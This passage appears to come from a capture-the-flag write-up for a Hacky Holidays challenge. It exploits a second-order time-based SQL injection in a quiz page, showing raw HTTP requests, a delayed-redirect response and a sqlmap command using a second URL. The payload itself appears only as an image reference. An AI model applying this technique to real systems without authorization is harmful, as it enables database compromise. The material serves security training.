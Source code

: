 
**Payloads**
{F1139545}

+ After injecting, submitting the request on quiz area

```http
POST /evil-quiz/start HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hackyholidays.h1ctf.com/evil-quiz/start
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=7ef26002a6768edc128fa085f2097475

ques_1=0&ques_2=0&ques_3=0
```

**Response**

```http
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 31 Dec 2020 13:42:56 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Location: /evil-quiz/score
Content-Length: 0
```

+ and then redirected to /evil-quiz/score which was loaded after 5 seconds, that means it was vulnerable to sql injection. This sql injection was of second order because of name was injected on one post request address and output was reflecting on different address `/evil-quiz/score.`

+ In order to exploit even better, I've used tool as sqlmap.

Command - `python sqlmap.py -r exploit.txt -p name --second-url="https://hackyholidays.h1ctf.com/evil-quiz/score"`

where exploit.txt was defined as

```http
POST /evil-quiz HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
```